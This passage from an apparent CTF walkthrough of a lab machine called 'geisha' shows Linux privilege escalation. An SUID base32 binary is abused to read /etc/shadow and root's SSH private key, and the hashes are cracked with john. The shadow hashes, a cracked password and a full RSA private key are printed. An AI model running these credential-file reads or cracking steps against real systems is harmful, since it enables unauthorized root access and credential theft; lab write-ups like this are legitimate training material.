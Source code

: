 5. System Enumeration: since this is linux machine run several command to get know that place, found the following binary file with SUID:
```
geisha@geisha:~$ ls -la $(echo $PATH|tr ":" " ") | grep rws
-rwsr-sr-x  1 root root       43712 Feb 28  2019 base32
```
Check `gtfobins` found that with that base32 file we can read files, since that is SUID of root, it's mean we can read shadow file.
```
base32 /etc/shadow | base32 -d
...
root:$6$3haFwrdHJRZKWD./$LYiTApGClgwmFE3TXMRtekWpGOY6fSpnTorsQL/FBr9YdOW4NHMzYFkOLu8qJQVa1wqfEC3a.SZeTHIyEhlPF0:18446:0:99999:7:::
geisha:$6$YtDFbbhHHf5Ag5ej$3EjLFKW1aSNBlfAhcyjmY97eLrNtbzDWQ9z5YvSvuA65kH7ZgHR1f9VGFhAEGGqiKAtF8//U45M8QOHouQrWb.:18494:0:99999:7:::
```
Then run `unshadow` and `john` for trying to crack that shadow file:
```
└─$ unshadow passwd shadow > unshadowed.txt
└─$ john --wordlist=/usr/share/wordlists/rockyou.txt unshadowed.txt
...
```
found nothing but geisha password which is `letmein`, so trying to grab keys from root directory:
```
geisha@geisha:/$ base32 /root/.ssh/id_rsa.pub | base32 -d
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDjd5XD/yhKyc5I8JLKFUSe3TV8jDLVhlSkQw9Dyk+TBfm4+Hg5leshNjcmphIIVyAlLfj9NCQounuIbZYaaeej86ngZyFcR1KSXCgY4o0DbaXulfnz0UAvVdIQEK3OWsKuSy99fTz7Lu1L8jyzjXDhoLVMN3mjxzUrHmV/CXurDRkyVt3nJ4BSG7G6/Gj8oWqJRR+lymgF/ehPYr3v9tmvTn1VTxPjB3kuQLMoQqYrl5tYgHp+Ah/HKESb+jd2XWWF6BO3MLo+2WG5Pu3L/+aoR4y6KnAfeWfrV8dezvYsj+9PHbpNJKbMejzNm37+XCuCuiHQHJdsK0NpmOjgcAV9
geisha@geisha:/$ base32 /root/.ssh/id_rsa | base32 -d
-----BEGIN RSA PRIVATE KEY-----
MIIEpQIBAAKCAQEA43eVw/8oSsnOSPCSyhVEnt01fIwy1YZUpEMPQ8pPkwX5uPh4
OZXrITY3JqYSCFcgJS34/TQkKLp7iG2WGmnno/Op4GchXEdSklwoGOKNA22l7pX5
89FAL1XSEBCtzlrCrksvfX08+y7tS/I8s41w4aC1TDd5o8c1Kx5lfwl7qw0ZMlbd
5yeAUhuxuvxo/KFqiUUfpcpoBf3oT2K97/bZr059VU8T4wd5LkCzKEKmK5ebWIB6
fgIfxyhEm/o3dl1lhegTtzC6PtlhuT7ty//mqEeMuipwH3ln61fHXs72LI/vTx26
TSSmzHo8zZt+/lwrgroh0ByXbCtDaZjo4HAFfQIDAQABAoIBAQCRXy/b3wpFIcww
WW+2rvj3/q/cNU2XoQ4fHKx4yqcocz0xtbpAM0veIeQFU0VbBzOID2V9jQE+9k9U
1ZSEtQJRibwbqk1ryDlBSJxnqwIsGrtdS4Q/CpBWsCZcFgy+QMsC0RI8xPlgHpGR
Y/LfXZmy2R6E4z9eKEYWlIqRMeJTYgqsP6ZR4SOLuZS1Aq/lq/v9jqGs/SQenjRb
8zt1BoqCfOp5TtY1NoBLqaPwmDt8+rlQt1IM+2aYmxdUkLFTcMpCGMADggggtnR+
10pZkA6wM8/FlxyAFcNwt+H3xu5VKuQKdqTfh1EuO3c34UmuS1qnidHO1rYWOhYO
jceQYzoBAoGBAP/Ml6cp2OWqrheJS9Pgnvz82n+s9yM5raKNnH57j0sbEp++eG7o
2po5/vrLBcCHGqZ7+RNFXDmRBEMToru/m2RikSVYk8QHLxVZJt5iB3tcxmglGJj/
cLkGM71JqjHX/edwu2nNu14m4l1JV9LGvvHR5m6uU5cQvdcMTsRpkuxdAoGBAOOl
THxiQ6R6HkOt9w/WrKDIeGskIXj/P/79aB/2p17M6K+cy75OOYzqkDPENrxK8bub
RaTzq4Zl2pAqxvsv/CHuJU/xHs9T3Ox7A1hWqnOOk2f0KBmhQTYBs2OKqXXZotHH
xvkOgc0fqRm1QYlCK2lyBBM14O5Isud1ZZXLUOuhAoGBAIBds1z36xiV5nd5NsxE
1IQwf5XCvuK2dyQz3Gy8pNQT6eywMM+3mrv6jrJcX66WHhGd9QhurjFVTMY8fFWr
edeOfzg2kzC0SjR0YMUIfKizjf2FYCqnRXIUYrKC3R3WPlx+fg5CZ9x/tukJfUEQ
65F+vBye7uPISvw3+O8n68shAoGABXMyppOvrONjkBk9Hfr0vRCvmVkPGBd8T71/
XayJC0L6myG02wSCajY/Z43eBZoBuY0ZGL7gr2IG3oa3ptHaRnGuIQDTzQDj/CFh
zh6dDBEwxD9bKmnq5sEZq1tpfTHNrRoMUHAheWi1orDtNb0Izwh0woT6spm49sOf
v/tTH6ECgYEA/tBeKSVGm0UxGrjpQmhW/9Po62JNz6ZBaTELm3paaxqGtA+0HD0M
OuzD6TBG6zBF6jW8VLQfiQzIMEUcGa8iJXhI6bemiX6Te1PWC8NMMULhCjObMjCv
bf+qz0sVYfPb95SQb4vvFjp5XDVdAdtQov7s7XmHyJbZ48r8ISHm98s=
-----END RSA PRIVATE KEY-----
```
